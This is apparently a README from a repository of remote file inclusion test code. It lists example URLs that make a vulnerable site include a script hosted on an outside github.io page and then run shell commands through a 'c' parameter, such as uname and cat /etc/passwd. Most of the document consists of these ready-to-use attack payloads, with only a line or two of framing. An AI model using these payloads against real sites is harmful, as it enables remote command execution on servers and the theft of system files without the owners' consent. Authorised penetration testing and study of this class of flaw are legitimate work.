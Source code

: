 # File-Inclusion-Codes

##This repository contains source codes for testing file inclusion vulnerability in sites.

#include_system_test.txt
##If you see something like include() in error then you can use this script
##https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname
##https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname -a
##https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=cat /etc/passwd
